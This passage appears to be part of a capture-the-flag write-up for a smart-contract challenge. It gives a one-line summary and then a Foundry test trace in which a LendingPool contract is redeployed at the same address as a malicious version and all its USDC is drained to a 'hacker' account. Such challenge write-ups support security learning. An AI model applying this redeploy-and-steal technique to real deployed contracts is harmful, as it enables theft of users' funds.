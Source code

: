 This implementation successfully replaces the original LendingPool contract with the malicious LendingHack contract at the same address, changes the contract name, and allows the attacker to steal all the USDC tokens.

### Running Result

```
Ran 1 test for test/Challenge3.t.sol:Challenge3Test
[PASS] testExploit() (gas: 1297393)
Traces:
  [1302193] Challenge3Test::testExploit()
    ├─ [0] VM::startPrank(hacker: [0xa63c492D8E9eDE5476CA377797Fe1dC90eEAE7fE])
    │   └─ ← [Return]
    ├─ [938686] Create2Deployer::deploy()
    │   ├─ [902250] → new CreateDeployer@0x4A8E30F035d59E9844D519b2a8564e4743C8925f
    │   │   ├─ emit OwnershipTransferred(previousOwner: 0x0000000000000000000000000000000000000000, newOwner: Create2Deployer: [0x5020029b077577Aae04d569234b7fefA73e33784])
    │   │   ├─ emit OwnershipTransferred(previousOwner: Create2Deployer: [0x5020029b077577Aae04d569234b7fefA73e33784], newOwner: hacker: [0xa63c492D8E9eDE5476CA377797Fe1dC90eEAE7fE])
    │   │   └─ ← [Return] 4378 bytes of code
    │   └─ ← [Return] CreateDeployer: [0x4A8E30F035d59E9844D519b2a8564e4743C8925f]
    ├─ [297145] CreateDeployer::deploy(false, USDC: [0x5615dEB798BB3E4dFa0139dFa1b3D433Cc23b72f])
    │   ├─ [263907] → new LendingPool@0x1d9e4F37D66134fdfb6699FAb50342217707FeAe
    │   │   ├─ emit OwnershipTransferred(previousOwner: 0x0000000000000000000000000000000000000000, newOwner: CreateDeployer: [0x4A8E30F035d59E9844D519b2a8564e4743C8925f])
    │   │   ├─ emit OwnershipTransferred(previousOwner: CreateDeployer: [0x4A8E30F035d59E9844D519b2a8564e4743C8925f], newOwner: hacker: [0xa63c492D8E9eDE5476CA377797Fe1dC90eEAE7fE])
    │   │   └─ ← [Return] 1078 bytes of code
    │   └─ ← [Return] LendingPool: [0x1d9e4F37D66134fdfb6699FAb50342217707FeAe]
    ├─ [34369] LendingPool::stealFunds(hacker: [0xa63c492D8E9eDE5476CA377797Fe1dC90eEAE7fE])
    │   ├─ [2562] USDC::balanceOf(LendingPool: [0x1d9e4F37D66134fdfb6699FAb50342217707FeAe]) [staticcall]
    │   │   └─ ← [Return] 100000 [1e5]
    │   ├─ [27838] USDC::transfer(hacker: [0xa63c492D8E9eDE5476CA377797Fe1dC90eEAE7fE], 100000 [1e5])
    │   │   ├─ emit Transfer(from: LendingPool: [0x1d9e4F37D66134fdfb6699FAb50342217707FeAe], to: hacker: [0xa63c492D8E9eDE5476CA377797Fe1dC90eEAE7fE], value: 100000 [1e5])
    │   │   └─ ← [Return] true
    │   └─ ← [Stop]
    ├─ [0] VM::stopPrank()
    │   └─ ← [Return]
    ├─ [4094] LendExGovernor::getPoolName(LendingPool: [0x1d9e4F37D66134fdfb6699FAb50342217707FeAe]) [staticcall]
    │   ├─ [461] LendingPool::name() [staticcall]
    │   │   └─ ← [Return] "LendingPool hack"
    │   └─ ← [Return] "LendingPool hack"
    ├─ [562] USDC::balanceOf(hacker: [0xa63c492D8E9eDE5476CA377797Fe1dC90eEAE7fE]) [staticcall]
    │   └─ ← [Return] 100000 [1e5]
    └─ ← [Stop]
```
